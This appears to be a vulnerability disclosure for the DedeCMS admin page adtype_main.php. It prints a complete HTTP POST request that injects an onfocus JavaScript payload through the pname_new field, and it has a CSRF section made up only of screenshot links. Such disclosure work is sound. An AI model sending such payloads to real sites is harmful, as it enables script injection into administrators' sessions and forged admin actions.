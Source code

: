 

## 1. adtype_main.php XSS exploit

```
POST /dede/adtype_main.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 107
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/dede/adtype_main.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=ju8br1crnd6r1t5n15mareo4co; _csrf_name_f85ab2bd=68c8acd29961e1819fd253926afea12f; _csrf_name_f85ab2bd1BH21ANI1AGD297L1FF21LN02BGE1DNG=c8b36315a6b54bc1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=546fad3334d3b477; DedeLoginTime=1713149620; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=dd81cc48d7edab74; ENV_GOBACK_URL=%2Fdede%2Fsys_admin_user.php
Connection: close

dopost=save&idend=0&pname_new=test" onfocus="javascript:alert(1)"&check_new=1&imageField=%E7%A1%AE%E5%AE%9A
```



![adtype_main_xss](https://github.com/thedarknessdied/dedecms/blob/main/114-CSRF-XSS.assets/adtype_main_xss.jpg)

## 2. adtype_main.php CSRF exploit

![image-20240415110639336](https://github.com/thedarknessdied/dedecms/blob/main/114-CSRF-XSS.assets/image-20240415110639336.png)

![image-20240415110708632](https://github.com/thedarknessdied/dedecms/tree/main/114-CSRF-XSS.assets/image-20240415110708632.png)

![image-20240415110723253](https://github.com/thedarknessdied/dedecms/tree/main/114-CSRF-XSS.assets/image-20240415110723253.png)



